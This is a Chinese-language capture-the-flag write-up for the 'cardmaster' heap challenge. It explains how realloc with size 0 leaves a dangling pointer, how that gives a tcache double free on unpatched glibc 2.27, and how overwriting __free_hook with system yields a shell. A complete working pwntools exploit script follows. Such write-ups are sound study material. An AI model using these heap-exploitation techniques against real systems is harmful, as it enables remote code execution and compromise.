


# cardmaster

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.27-3ubuntu1|

## 解题思路

菜单题一道，考堆，但是没有 `free`。当时是我没想到，我一直想着靠 `realloc` 去构造空洞，
但实际上当 `p` 非 `NULL` 且 `size` 为 0 时，`realloc` 等价于 `free(p)`。

注意到在 set info 时，如果卡牌数量为 0，那么 `realloc` 会释放指针；同时 `realloc`
返回的 `NULL` 不会赋值给 `this->cardset`，因此会留下一个悬挂指针。此时回头看本题的
libc，是 **应用安全措施之前的版本，因此 tcache dup 是没有检查的，可以直接做 double
free。** 再次 set info 并输入 0 张卡牌数，就可以在 tcache 链子上挂同一个堆块，
后续拿回来之后，就可以修改其 `fd` 达到任意分配的目的了。

> [!TIP]
> Ubuntu 软件包更新分多个频道，常见的有 Release, Security 和 Updates。Release 是 Ubuntu
> 大版本刚发布时包的版本，如果后续更新了包，则会同步到 Updates。如果更新是安全更新，
> 则会同步到 Security 以保证最快速的响应。像这次的 libc 就是 Ubuntu 发布时的 Release
> 包，没有应用后续的安全更新，如果后缀是 1.6 这种，那就是 Security 或 Updates 频道的包。



剩下的思路就很简单了，在 `__free_hook` 上写上 `system`，然后释放包含 `"/bin/sh"`
的堆块就可以拿到 shell 了。为了能反复操控 double free 的堆块，并且减少堆块分配，
我交替 set info 和 init cards，并始终将卡牌数量设为 0。借助 cardset 在 init
cards 后首次分配使用 `malloc` ，可以轻松实现修改 freelist。

> [!IMPORTANT]
> 在利用的过程中要注意 `realloc` 如果了两个参数均不为 0，即需要调整堆块大小，
> 则拿到的新堆块是不会从 tcache 取的。因此要额外考虑这种情况下对堆风水的影响。

> [!NOTE]
> 我自己写了一下内存分配情况，在脚本里实现了类似 mtrace 的效果，当时调试的时候令我诧异的是，
> 连续 double free 3 次，0x50 堆块确实 3 个都在链子上了，但是 0x90 的堆块却只有 1 个空闲的，
> 还莫名奇妙多了个 `0x20` 的堆块。在翻阅源码并进一步调试后，才发现 `this->suits` 在使用
> `realloc` free 后，会被写入 `NULL`，此时再 double free 一次就会实际执行 `realloc(0, 0)`，
> 此时 glibc 并没有视其为 `free(0)`，而是视其为 `malloc(0)`，导致多分配了一个小堆块。
>
> 

## EXPLOIT

```python
from pwn import *
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
context.arch = 'amd64'
EXE = './cardmaster'

def payload(lo: int):
    global t, first_suit
    v = False
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
        if lo & 4:
            v = True
    else:
        t = remote('', 9999)
    elf = ELF(EXE)
    libc = elf.libc
    first_suit = True

    def wrap(size: int) -> str:
        return f'{(size + 0x17) & ~0xf:<#6x}'

    def initcard(ignore: bool = False):
        global first_suit, suits
        if not ignore:
            t.sendlineafter(b'>>', b'1')

        trace(f'+ {wrap(0x28)} => cardset')
        trace(f'+ {wrap(0x20)} => suits')
        trace(f'+ {wrap(0xd0)} => card (x4)')
        first_suit = True
        suits = 1

    def setinfo(count: int, rang: int, level: int, cardset: bytes):
        global first_suit, suits
        t.sendlineafter(b'>>', b'2')
        t.sendlineafter(b'count', str(count).encode())
        t.sendlineafter(b'rang', str(rang).encode())
        t.sendlineafter(b'level', str(level).encode())
        if count:
            t.sendafter(b'suite set', cardset)

        if first_suit:
            first_suit = False
            trace(f'+ {wrap(count * 4)} => cardset')
        elif count == 0:
            trace(f'- cardset')
        else:
            trace(f'^ {wrap(count * 4)} => cardset')
        if suits is None:
            trace(f'+ {wrap(count * 8)} => suits')
            suits = 1
        elif count == 0:
            trace(f'- suits')
            suits = None
        else:
            trace(f'^ {wrap(count * 8)} => suits')
        if rang:
            for _ in range(count):
                trace(f'+ {wrap(rang * 16)} => card')

    def getinfo() -> bytes:
        t.sendlineafter(b'>>', b'3')
        t.recvuntil(b'set:')
        return t.recvline(drop=True)

    def trace(msg: str):
        if v:
            info(msg)

    # Leak libc base at top chunk
    initcard(ignore=True)
    setinfo(0x200, 0, 0, b'x')
    setinfo(0, 0, 0, b'x')
    libc_base = u64(getinfo() + b'\0\0') - 0x3ebca0
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # Construct tcache dup
    initcard()
    setinfo(0x10, 0, 0, b'x')
    setinfo(0, 0, 0, b'x')
    setinfo(0, 0, 0, b'x')
    setinfo(0, 0, 0, b'x')

    # Hijack freelist to run system
    initcard()
    # consume 0x50-size chunk
    setinfo(0x10, 0, 0, p64(libc.symbols['__free_hook']))
    initcard()
    setinfo(0x10, 0, 0, b'x')
    initcard()
    setinfo(0x10, 0, 0, p64(libc.symbols['system']))
    initcard()
    setinfo(0x40, 0, 0, b'/bin/sh\0')
    setinfo(0, 0, 0, b'x')

    t.clean()
    t.interactive()
    t.close()
```
